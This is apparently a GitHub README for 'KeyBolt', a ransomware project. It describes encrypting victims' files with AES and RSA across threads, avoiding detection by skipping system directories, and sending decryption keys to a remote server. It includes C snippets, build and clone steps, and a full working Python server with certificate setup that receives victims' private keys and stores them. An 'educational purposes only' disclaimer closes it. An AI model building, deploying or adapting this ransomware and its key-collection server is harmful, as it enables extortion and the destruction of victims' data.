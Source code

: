 # KeyBolt Ransomware

## Overview

**KeyBolt** is a sophisticated ransomware application designed to encrypt target files on the victim's system and securely transmit the decryption keys to a remote server. The application employs robust encryption algorithms and multithreading for efficient file processing.

KeyBolt primarily targets files with specific extensions while excluding system directories to minimize detection. It generates unique user identifiers and utilizes public key cryptography for secure key exchange.

## Important Fragments

### File Encryption

KeyBolt utilizes AES (Advanced Encryption Standard) for file encryption. Each file is encrypted with a randomly generated key, which is then encrypted with the victim's public RSA key. The encryption process ensures that only the authorized party can decrypt the files.

```c
void encrypt_file(const char *file_path, const char *public_key) {
    ...
    EVP_SealInit(ctx, EVP_aes_128_cbc(), &encrypted_key, &encrypted_key_len, iv, &pkey, 1);
    ...
}
```

### Multithreading

To improve performance, KeyBolt employs multithreading for file encryption. It divides the workload among several threads based on the number of available CPU cores.

```c
void encrypt_files(char **file_paths, int file_count, const char *public_key) {
    ...
    pthread_create(&threads[i], NULL, encrypt_files_thread, (void *)&thread_data[i]);
    ...
}
```

### Network Communication

KeyBolt securely sends the encrypted decryption keys to a designated server using SSL/TLS. This process ensures that sensitive data is transmitted securely over the network.

```c
SSL *ssl;
...
SSL_write(ssl, ciphertext, ciphertext_len);
```

### Compilation Instructions

KeyBolt is developed in C and requires a Linux environment for compilation. Ensure you have the necessary libraries installed, including OpenSSL and pthread.

#### Prerequisites

- GCC (GNU Compiler Collection)
- OpenSSL Development Libraries
- Pthread Library
- Winsock2 (for network communication on Windows)

#### Steps to Compile

1. Clone the repository:

    ```bash
    git clone https://github.com/s4crifice/keybolt-ransomware.git
    cd KeyBolt
    ```

2. Install required packages:

    On Debian-based systems, use:

    ```bash
    sudo apt-get install build-essential libssl-dev 
    ```

3. Go to scripts/:

    Run the following command in the terminal:

    ```bash
    cd scripts
    ```

4. Run the program:

    ```bash
    ./build_project.sh
    ```

### Example Server

Below is a simple Python server implementation that can be used to receive data from KeyBolt. Ensure you have pycryptodome installed to run this server and decrypt data.

#### Python Server Example

```python
import socket
import ssl
import json
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

# AES key and IV must match those used in client
AES_KEY = b'12345678901234567890123456789012'  # 32 bytes for AES-256
AES_IV = b'1234567890123456'                   # 16 bytes for AES block size

def decrypt_aes(ciphertext):
    cipher = AES.new(AES_KEY, AES.MODE_CBC, AES_IV)
    decrypted_data = unpad(cipher.decrypt(ciphertext), AES.block_size)
    return decrypted_data

def handle_client_connection(client_socket):
    try:
        encrypted_data = client_socket.recv(4096)
        if not encrypted_data:
            print("No data received")
            return

        print(f"Encrypted data: {encrypted_data}")

        # Decrypt the data
        decrypted_data = decrypt_aes(encrypted_data)
        print(f"Decrypted data: {decrypted_data}")

        json_data = json.loads(decrypted_data.decode('utf-8'))

        # Extract the privateKey and userId
        private_key = json_data.get('privateKey')
        user_id = json_data.get('userId')

        if private_key is None or user_id is None:
            print("Missing fields")
            return

        # Process the data as needed (for now, we just print it)
        print(f"Received privateKey: {private_key}")
        print(f"Received userId: {user_id}")

        # Save the privateKey to a file named after the userId
        with open(f"received_keys/{user_id}.txt", "w") as file:
            file.write(f"privateKey:\n{private_key}\n")
            file.write(f"userId: {user_id}\n")

    except Exception as e:
        print(f"Decryption failed: {e}")

def main():
    server_address = ('0.0.0.0', 443)

    # Create a socket
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_socket.bind(server_address)
    server_socket.listen(5)
    print(f"Server listening on {server_address}")

    # Wrap the socket with SSL
    context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
    context.load_cert_chain(certfile='SSL/server.crt', keyfile='SSL/server.key')
    ssl_server_socket = context.wrap_socket(server_socket, server_side=True)

    while True:
        client_socket, client_address = ssl_server_socket.accept()
        print(f"Connection from {client_address}")
        handle_client_connection(client_socket)
        client_socket.close()

if __name__ == '__main__':
    main()
```

#### Generate SSL certificate

1. Using OpenSSL
    ```bash
    openssl req -x509 -newkey rsa:2048 -keyout server.key -out server.crt -days 365 -nodes
    ```

2. Move it to the SSL directory
    ```bash
    mv server.crt server.key SSL/
    ```

#### Run the Server

1. Install pycryptodome:

    ```bash
    pip install pycryptodome
    ```

2. Run the server:

    ```bash
    python server.py
    ```

### Disclaimer

KeyBolt is intended for educational purposes only. The authors do not condone the use of ransomware for malicious purposes. Misuse of this software is strictly prohibited and may result in legal consequences.

